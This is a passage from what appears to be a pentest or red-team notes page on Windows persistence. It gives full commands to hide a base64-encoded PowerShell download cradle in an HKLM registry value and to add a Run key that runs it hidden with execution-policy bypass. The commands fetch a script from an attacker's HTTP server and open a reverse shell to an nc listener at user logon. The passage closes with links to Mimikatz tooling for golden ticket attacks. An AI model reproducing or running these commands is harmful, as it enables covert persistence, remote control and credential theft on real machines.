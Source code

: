 > Now, launch the following command in cmd and wait to open Notepad.

```
"C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe" -c "$x=$((gp HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion VMAINDNS).VMAINDNS);powershell -W 1 -NonI -NoP -ep bypass -enc $x"
```

<video width="1200" height="800" controls src="https://user-images.githubusercontent.com/84678370/143968440-7e89ca50-32a9-4326-aab8-bff712826d58.mp4"> </video>

> We can be sure that it will work

> Instead of launching a process in Notepad, let's get to the interesting part, send a reverse shell.

```
python3 -m http.server 8080 - set up the server in the same path where you saved the obfuscated nishang script 
```

```
rlwrap nc -nlvp 8443
```

> Remember to enter your IP

```
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:8080/ps.ps1')"))
```

> And add the two string values `DNSERVICE` & `VMAINDNS`
 
``` 
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion" /v VMAINDNS /t REG_SZ /d "Base64 String ==" 
```

> This last command is launched from cmd 

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v DNSERVICE /t REG_SZ /d "C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -c $x=$((gp HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion VMAINDNS).VMAINDNS);powershell -W 1 -NonI -NoP -ep bypass -enc $x"
```

> We just have to wait for a user to log in and we will have our reverse shell.

<video width="1200" height="800" controls src = "https://user-images.githubusercontent.com/84678370/143962473-251decd9-c9b1-4d88-87d1-8b348b891a1f.mp4"> </video>

### Golden Ticket

- - <a href= "https://github.com/gentilkiwi/mimikatz" style="color:bluesky">__Mimikatz Releases__

- - <a href= "https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1" style="color:bluesky">__Empire Project__

- - <a href= "https://pentestlab.blog/2018/04/09/golden-ticket/" style="color:bluesky">__PentestLab__
